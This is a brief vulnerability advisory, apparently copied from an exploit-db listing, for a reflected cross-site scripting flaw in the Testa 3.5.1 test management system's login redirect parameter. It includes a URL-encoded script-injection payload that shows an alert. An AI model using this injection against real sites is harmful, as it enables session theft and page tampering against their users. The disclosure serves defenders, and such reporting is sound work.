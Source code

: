 ## Testa-3.5.1 (Cross site scripting)
```
=========================================================================
#
# Testa 3.5.1 Online Test Management System (Cross Site Scripting)
# Version: 3.5.1
# Tested on Linux/Windows
#
=========================================================================
#
# POC (Piye om carane)
# https://localhost/login.php?redirect=[Payloads]
# Payloads: %22%3E%3Cscript%3Ealert(%22evil.com%22)%3C/script%3E
#
=========================================================================
```
## Software & Reference
###### [https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)
###### [https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
###### [https://www.apachefriends.org/download.html](https://www.apachefriends.org/download.html)
